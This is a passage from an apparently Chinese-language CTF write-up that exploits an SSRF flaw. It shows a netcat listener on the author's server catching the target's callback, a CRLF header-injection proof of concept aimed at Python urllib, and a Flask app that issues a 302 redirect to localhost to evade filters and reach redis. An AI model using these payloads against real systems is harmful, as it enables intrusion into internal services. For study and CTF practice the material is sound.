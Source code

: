 #### 2.构造ssrf漏洞

我们看到返回了内容，在用云服务器试一下`nc -l -p 12345`，输入参数`0:8000?url=http://公网ip:12345`:

```html
<!DOCTYPE html> <html lang="en"> <head> <meta charset="UTF-8"> <title></title> </head> <body> <p>timed out</p> </body> </html>
```

服务器请求timed out，再看服务器：
```
[grt1st@VM_14_12_centos ~]$ nc -l -p 12345
GET / HTTP/1.1
Accept-Encoding: identity
Connection: close
User-Agent: Python-urllib/3.4
Host: 123.206.60.140:12345
```

可以看出服务端使用的是urllib、python版本3.4，可能存在http头部注入。简单的poc："0:8000?url=http://123.206.60.140%0d%0aX-injected:%20header%0d%0ax-leftover:%20:12345"，看到服务器端：

```
[grt1st@VM_14_12_centos ~]$ nc -l -p 12345
GET / HTTP/1.1
Accept-Encoding: identity
Connection: close
User-Agent: Python-urllib/3.4
Host: 123.206.60.140
X-injected: header
x-leftover: :12345
```

我们成功的进行了http头部注入，可以拿来操纵redis。

那我们怎么通过0:8000打redis呢？看来要通过另一个ssrf漏洞。这里同样的对进制转换进行了过滤，但是我们可以通过302跳转构造出ssrf漏洞。

同样的，在我们的云服务器上，通过flask进行简单的测试：

```python
from flask import Flask
from flask import redirect
from flask import request
from flask import render_template

app = Flask(__name__)
app.debug = True

@app.route('/')
def test():
    return redirect('http://127.0.0.1:80/', 302)

if __name__ == '__main__':
    app.run(host='0.0.0.0')
```

看到返回：
```html
<!DOCTYPE html> <html lang="en"> <head> <meta charset="UTF-8"> <title></title> </head> <body> <p>我觉得可以</p> </body> </html>
```
